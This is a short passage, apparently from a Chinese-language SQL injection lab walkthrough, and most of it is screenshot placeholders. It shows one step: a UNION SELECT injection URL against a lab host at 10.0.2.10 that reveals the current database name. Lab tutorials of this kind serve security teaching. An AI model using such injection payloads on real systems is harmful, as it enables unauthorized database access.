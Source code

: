 ![image](11.jpg)

c、当前使用的数据库信息：```http://10.0.2.10/cat.php?id=1%20UNION%20SELECT%201,%20database(),3,4```

显示如下：

![image](12.jpg)
